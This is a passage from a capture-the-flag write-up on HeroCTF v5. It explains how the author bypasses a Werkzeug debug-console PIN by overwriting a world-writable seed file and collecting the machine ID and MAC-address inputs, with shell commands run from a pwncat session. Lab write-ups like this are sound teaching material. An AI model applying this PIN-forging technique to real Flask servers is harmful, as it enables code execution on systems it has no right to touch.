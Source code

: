 Inside that directory, it has a symbolic link (symlink) file pointing to `/dev/urandom`.

What can we do with that...

## Exploitation

**Then, I opened a ticket just to confirm the Werkzeug Debug Console is the right track or not:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514202551.png)

So, 100% sure it's about Werkzeug Debug Console PIN code bypass...

**Hmm... Let's read through the generating PIN code source code:**
```shell
(remote) www-data@flask:/var/www/app$ 
(local) pwncat$ download /usr/local/lib/python3.10/dist-packages/werkzeug/debug/__init__.py
```

**Then, around reading through it...**
```python
private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
        open("/var/www/config/urandom", "rb").read(16) # ADDING EXTRA SECURITY TO PREVENT PIN FORGING
    ]
```

**`/var/www/config/urandom`????**

That makes a lot more sense why the symlink `urandom` file exists!

The above modifiied `private_bits` not only getting the MAC address of the machine and machine ID, **but also 16 bytes from `/var/www/config/urandom`!**

**Now, since the directory `/var/www/config/` is world-writable, we can just modify it!**
```shell
(remote) www-data@flask:/var/www/app$ cd /var/www/config/
(remote) www-data@flask:/var/www/config$ mv urandom urandom.bak
(remote) www-data@flask:/var/www/config$ vi urandom
(remote) www-data@flask:/var/www/config$ cat urandom
AAAAAAAAAAAAAAAA
```

The modified `/var/www/config/urandom` now consists 16's A character!

**Now, the correct private bits is!**
```python
private_bits = [
	'2482665383426',# str(uuid.getnode()),  /sys/class/net/ens33/address 
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'97752bf5a62a4e9588a4aa4ccf85660f',
	'AAAAAAAAAAAAAAAA'
]
```

> Note: The MAC address and machine ID is changed because of different instance machine.
